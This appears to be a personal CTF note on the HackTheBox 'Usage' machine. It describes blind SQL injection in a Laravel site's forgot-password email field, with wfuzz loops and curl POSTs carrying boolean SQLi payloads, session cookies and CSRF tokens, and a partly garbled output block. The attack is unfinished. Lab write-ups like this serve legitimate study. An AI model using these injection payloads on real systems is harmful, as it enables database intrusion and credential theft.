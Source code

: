 # Usage \[Easy]

## Report

A PHP Laravel site is prone to blind SQLi in the 'Forgot Password' page at the 'email' parameter.  The admin/user creds are exposed which we did not achieve due to inability to follow redirects via curl and hence decided ffuf also would not either.

Intruder did but it was too slow to make any noticable progress

{% embed url="https://0xdf.gitlab.io/2024/10/19/htb-editorial.html" %}

## Cheatsheet

```
laravel php
admin.usage.htb vhost
token field whenever login is being performed
fuzzing forget-password
[Status: 301, Size: 178, Words: 6, Lines: 8

for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr(database(),$i,1)))=FUZZ --+";done 

for i in $(seq 1 10); wfuzz -c -z range,32-127  -b "XSRF-TOKEN=eyJpdiI6ImJDMDhuWEdORUhxYVo3ZE9tSHhUM3c9PSIsInZhbHVlIjoiMHVxc3FqLzcvcFBQcExFWXhRN0Z4YTE4aHp1VnJnTEtXOTZWWGZYbjBWRUJBWUc0VjhJSHh6RThYNWZDYUtPY0RVYXJRVlpBU09SV1laY0M0eWtPMUZBdFJ1Qk1DZDRheFUySUtHVC9BOXNNbmlCWTVZNGZLVzhIZ1pBbXpoYmMiLCJtYWMiOiJjYTIyY2I2OTM4YTI2MTNkODlhZmJkOWIxMzljMjA2ZmFkMmUyNGMwMGQ5MThjYWU0M2FiMGY4MWI0ZjEyNmVjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjE3cGI3bjR5Y3psMkUvUWJ0TGw5V2c9PSIsInZhbHVlIjoiZi9xY3NuR3ErVXVWMzlFcXROVGZxQkNTRERJMHB0bGNZZ0UxcVFZZGIycktmWFRaZWIrNmJKcy9RZEhqOEtpVmFFb1piWXB4MVMrS01nN2swR2ZDK3pZQjdMR1VEY0p5a3c1SW9rOXJFcTdzbDdNTm54RnoyOGM0U1kyZ2xHaWkiLCJtYWMiOiIyZTQxNmYyZTc3OWU3NjlhMzE1ZjgyOGJkZDg3M2FiYzFkOWM1ODljNTQxODhhZTNhZTk0MzRhMDU0OTg4MDcwIiwidGFnIjoiIn0%3D" -u http://10.10.11.18/forget-password:80 -X POST -d "_token=C9PYLY5AYByiQPK35kxcSJb4rYu9VLJulIGOe1RH&email=x OR (ascii(substr(database(),$i,1)))=FUZZ-- -'" --hw=12



Once we broke the sql identify the or code that actlly makes it work properly

curl --insecure -b "XSRF-TOKEN=eyJpdiI6ImJDMDhuWEdORUhxYVo3ZE9tSHhUM3c9PSIsInZhbHVlIjoiMHVxc3FqLzcvcFBQcExFWXhRN0Z4YTE4aHp1VnJnTEtXOTZWWGZYbjBWRUJBWUc0VjhJSHh6RThYNWZDYUtPY0RVYXJRVlpBU09SV1laY0M0eWtPMUZBdFJ1Qk1DZDRheFUySUtHVC9BOXNNbmlCWTVZNGZLVzhIZ1pBbXpoYmMiLCJtYWMiOiJjYTIyY2I2OTM4YTI2MTNkODlhZmJkOWIxMzljMjA2ZmFkMmUyNGMwMGQ5MThjYWU0M2FiMGY4MWI0ZjEyNmVjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjE3cGI3bjR5Y3psMkUvUWJ0TGw5V2c9PSIsInZhbHVlIjoiZi9xY3NuR3ErVXVWMzlFcXROVGZxQkNTRERJMHB0bGNZZ0UxcVFZZGIycktmWFRaZWIrNmJKcy9RZEhqOEtpVmFFb1piWXB4MVMrS01nN2swR2ZDK3pZQjdMR1VEY0p5a3c1SW9rOXJFcTdzbDdNTm54RnoyOGM0U1kyZ2xHaWkiLCJtYWMiOiIyZTQxNmYyZTc3OWU3NjlhMzE1ZjgyOGJkZDg3M2FiYzFkOWM1ODljNTQxODhhZTNhZTk0MzRhMDU0OTg4MDcwIiwidGFnIjoiIn0%3D" -X POST --data "_token=C9PYLY5AYByiQPK35kxcSJb4rYu9VLJulIGOe1RH&email=j@gmail.com' or 1=1;-- -';" http://usage.htb/forget-password

IF email does not exist
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url='http://usage.htb/forget-password'" />itle>Redirecting to http://usage.htb/forget-password</title>6l.com' or (select count(*) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='usage_blog')=15;-- -';TOKEN=eyJpdiI6ImJDMDhuWEdORUhxYVo3ZE9tSHhUM3c9PSIsInZhbHVlIjoiMHVxc3FqLzcvcFBQcExFWXhRN0Z4YTE4aHp1VnJnTEtXOTZWWGZYbjBWRUJBWUc0VjhJSHh6RThYNWZDYUtPY0RVYXJRVlpBU09SV1laY0M0eWtPMUZBdFJ1Qk1DZDRheFUySUtHVC9BOXNNbmlCWTVZNGZLVzhIZ1pBbXpoYmMiLCJtYWMiOiJjYTIyY2I2OTM4YTI2MTNkODlhZmJkOWIxMzljMjA2ZmFkMmUyNGMwMGQ5MThjYWU0M2FiMGY4MWI0ZjEyNmVjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjE3cGI3bjR5Y3psMkUvUWJ0TGw5V2c9PSIsInZhbHVlIjoiZi9xY3NuR3ErVXVWMzlFcXROVGZxQkNTRERJMHB0bGNZZ0UxcVFZZGIycktmWFRaZWIrNmJKcy9RZEhqOEtpVmFFb1piWXB4MVMrS01nN2swR2ZDK3pZQjdMR1VEY0p5a3c1SW9rOXJFcTdzbDdNTm54RnoyOGM0U1kyZ2xHaWkiLCJtYWMiOiIyZTQxNmYyZTc3OWU3NjlhMzE1ZjgyOGJkZDg3M2FiYzFkOWM1ODljNTQxODhhZTNhZTk0MzRhMDU0OTg4MDcwIiwidGFnIjoiIn0%3D" -X POST --data "_token=C9PYLY5AYByiQPK35kxcSJb4rYu9VLJulIGOe1RH&email=j@gmail.com" http://usage.htb/forget-password

```

## Loot

curl sort page xpired - refresh session, token cookies

ffuf does work if curl sorted then peace

Well i couldnt sort the curl bit but burp intruder can follow redirecta however its really slow and if other machines are involved then ofc we can focus on them while this goes on.

Can turbo intruder follow redirects tho?

{% embed url="https://stackoverflow.com/questions/18474690/is-there-a-way-to-follow-redirects-with-command-line-curl" %}

using raw request incase missing headers were the problem

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
